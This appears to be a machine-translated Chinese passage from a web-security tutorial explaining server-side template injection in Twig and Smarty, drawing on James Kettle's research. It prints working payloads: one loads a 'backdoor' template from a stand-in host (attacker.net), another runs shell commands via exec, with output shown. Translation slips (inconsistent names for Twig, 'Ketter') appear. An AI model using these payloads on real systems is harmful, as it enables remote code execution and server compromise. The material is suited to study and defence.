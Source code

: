 假设您有一个易受 SSTI 攻击的应用程序正在使用 Twig。小枝（[https://twig.symfony.com/](https://twig.symfony.com/) 是用 PHP 开发的模板引擎。

我们可以通过源代码检测引擎的使用情况。考虑下面的代码片段：

```
var greet = 'Hello $name'; 
<ul> 
<% for(var i=0; i<data.length; i++) 
{%> 
<li><%= data[i] %></li> 
<% } 
%> 
</ul> 
<div> 
<p> Welcome, {{ username }} </p> 
</div> 
```

在这里，我们可以看到应用程序正在等待数据向用户呈现最终的网站。当 PHP 读取模板时，它会执行其中包含的所有内容。例如，在 2015 年，James Kettle 发布了一个漏洞，允许使用以下字符串在细枝中注入后门：

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}} 
```

按照相同的思路，可以使用以下字符串执行任何命令，甚至获取 shell：

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}} 
uid=1000(k) gid=1000(k) groups=1000(k),10(wheel) 
```

这是因为，在代码中，可以插入任何 PHP 函数，而无需验证。Kettle 显示了源代码中的漏洞，如下所示：

```
public function getFilter($name){ 
[snip] 
   foreach ($this->filterCallbacks as $callback) { 
         if (false !== $filter = call_user_func($callback, $name)) { 
               return $filter; 
         } 
   } 

   return false; 
} 
public function registerUndefinedFilterCallback($callable){ 
   $this->filterCallbacks[] = $callable; 
} 
```

基本上，代码接受任何类型的 PHP 函数，因此，在字符串中，Kettle 输入了`exec()`函数，直接向服务器执行命令。

细枝不是唯一有问题的引擎。Kettle 研究的其他引擎包括 Smarty，另一个 PHP 引擎，理论上不允许直接使用`system()`函数。然而，Ketter 发现它允许调用其他类中的方法。

易受攻击的代码段显示在以下屏幕截图中：

![](Images/e83a91da-a8ce-4c53-a9f9-6ff3a3ce96d4.png)
